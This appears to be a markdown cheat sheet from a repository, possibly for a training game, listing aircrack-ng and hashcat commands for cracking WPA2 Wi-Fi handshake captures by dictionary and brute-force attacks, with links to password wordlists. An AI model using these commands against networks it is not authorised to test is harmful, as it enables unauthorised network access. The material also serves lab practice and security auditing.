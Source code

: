 
# Stop monitor mode on interface:
```
sudo airmon-ng stop wlp1s0mon
```
# Start Network Manager so you can get back online:
```
sudo service network-manager start
```
# Use aircrack and passwordlist of your choice:
### sudo aircrack-ng -w [Password list] [Name of CAP file] 
```
sudo aircrack-ng -w ~/github/ChickenManGame/ChickenDay/passwords/darkweb2017-top10000.txt New-01.cap 
```
### sudo aircrack-ng -a2 specifies WPA2, -b is the bssid, -w is the wordfile
```
sudo aircrack-ng -a2 -b 60:38:E0:D3:AC:45 -w ~/passwords2.txt New-01.cap 
sudo aircrack-ng -a2 -w ~/new-list2.txt New-01.cap 
```


# clean up cap to convert
```
wpaclean clean.cap original.cap 
```
# convert to use hashcat 
### make hccapx
```
aircrack-ng -j clean clean.cap
```
### make hccap
```
aircrack-ng -J clean clean.cap
```

# Dictionaries:
1. https://crackstation.net/crackstation-wordlist-password-cracking-dictionary.htm
2. https://wiki.skullsecurity.org/Passwords
3. https://haveibeenpwned.com/Passwords

# Hashcat
### Dictionary Attack
```
hashcat -m 2500 capture.hccapx wordlist.txt
```
### Brute-Force Attack
```
hashcat -m 2500 -a3 capture.hccapx ?d?d?d?d?d?d?d?d
hashcat -m 2500 -a3 capture.hccapx ?h?h?h?h?h?h?h?h
hashcat -m 2500 -a3 capture.hccapx ?H?H?H?H?H?H?H?H
```
